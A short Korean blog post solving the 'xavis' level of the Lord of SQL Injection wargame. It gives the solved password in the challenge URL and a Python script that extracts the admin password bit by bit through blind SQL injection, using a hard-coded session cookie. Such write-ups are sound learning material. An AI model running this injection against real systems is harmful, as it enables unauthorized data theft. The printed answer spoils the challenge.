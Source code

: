 ```yaml
---
layout: post
title: LOS Xavis 
date: 2015-08-16 23:09:00 +0900
category: Hacking 
---
```

http://los.sandbox.cash/chall/xavis_a395c4d30bdb092b6f835ee7b4821aa3.php?pw=%ED%95%B4%EC%BB%A4%EB%8B%A4

키값이 한글 아오

한글자씩 비교해서 추출했다 ㅋㅋㅋㅋㅋㅋㅋㅋ손으로


예전엔 손으로 풀었지만 역시나 진우꺼 소스 가져오는게 가장 편하다.



```
import requests
 
 
 
key=""
site=""
q=0
w=1
header={'Cookie':'PHPSESSID=dtf9l8uj2aq5m3orv1ddmg97k7'}
for j in range(1,4):
        for i in reversed(range(1,17)):
                site="http://los.sandbox.cash/chall/xavis_a395c4d30bdb092b6f835ee7b4821aa3.php?pw=%27||id='admin'%26%26"
                site+="substr(bin(ord(mid(pw,"+str(j)+",1))),"+str(i)+",1)%23"
                print (site)
                r=requests.put(site,headers=header)
                
                if "<br><h2>Hello admin" in r.text:
                  q+=w
                w=w*2
        key=key+str(q)+"   "
        print ("\nkey"+key+"\n")
        q=0
        w=1
                


```
출처 : http://unknown84.tistory.com/23


